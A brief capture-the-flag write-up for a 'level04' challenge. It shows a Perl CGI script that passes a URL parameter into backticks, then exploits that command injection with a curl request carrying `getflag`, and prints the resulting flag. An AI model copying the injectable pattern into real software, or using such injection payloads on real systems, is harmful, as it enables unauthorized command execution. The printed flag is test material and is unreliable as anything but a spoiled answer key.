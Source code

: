 # level04 solve

For begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level04.pl
```

It's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level04.pl 
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param};
> print "Content-type: text/html\n\n";
> sub x {
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x"));
```

With that we can see 3 important elements :

```
- localhost:4747 -> url, so we can try to call the website with curl

- print `echo $y 2>&1\`; -> will be breakable with a code injection cause of ` character

- x(param("x")); -> parameter who can contain a value
```

After 

```
$ curl localhost:4747?x=\`getflag\`
> ne2searoevaevoem4ov4ar8ap
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level03">previous level</a> - <a href="../../level05">next level</a>
